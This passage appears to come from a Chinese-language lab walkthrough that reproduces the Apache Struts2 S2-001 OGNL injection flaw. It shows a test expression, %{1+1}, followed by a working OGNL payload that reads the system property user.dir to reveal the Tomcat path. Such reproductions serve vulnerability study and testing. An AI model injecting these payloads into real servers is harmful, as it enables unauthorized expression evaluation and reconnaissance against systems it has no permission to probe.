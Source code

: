 在输入框中输入 OGNL 表达式 `%{1+1}` ，点击提交，测试以下是否会执行表达式，查看如下页面

![s2-001-2](images/s2-001-2.png)

在输入框中输入如下 OGNL 表达式获取 Tomcat 的路径，点击提交，查看如下页面

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

![s2-001-3](images/s2-001-3.png)
